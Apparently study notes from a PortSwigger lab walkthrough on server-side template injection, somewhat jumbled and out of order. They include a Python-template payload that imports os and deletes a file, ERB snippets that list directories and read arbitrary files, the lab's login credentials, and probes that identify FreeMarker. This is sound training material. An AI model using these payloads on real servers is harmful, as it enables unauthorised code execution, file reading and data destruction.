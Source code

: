     comment

we got a math render on the server! possible RCE vector

lets insert some code to delet carlos inside. remmember to leave original value "user.name" snd close with }} in order to avoid empty value error

**final payload:**
    user.name}}{%+import+os;+%}{{os.remove("/home/carlos/morale.txt");}}

#Lab Solved

 For example, in ERB, the documentation reveals that you can list all directories and then read arbitrary files as follows:
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>


# [3.***Lab: Server-side template injection using documentation***](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-using-documentation)

 This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials:
content-manager:C0nt3ntM4n4g3r

1. login with credentials and edit a template of a post:
```
try: ${7*7}
get: 49
```
next in the chart:
```
try: a{*comment*}b
get: a{*comment*}b
```
next in the chart:
```
try: ${"z".join("ab")}
get: [blank]
```

definitly not Mako or smarty

```
try: ${system(echo hello)}
get:FreeMarker template error (DEBUG mode; use RETHROW in production!): The following has evaluated to null or missing: ==> system [in template "freemarker" 
```

now we know its FreeMarker!

check doumentation:
https://freemarker.apache.org/docs/index.html
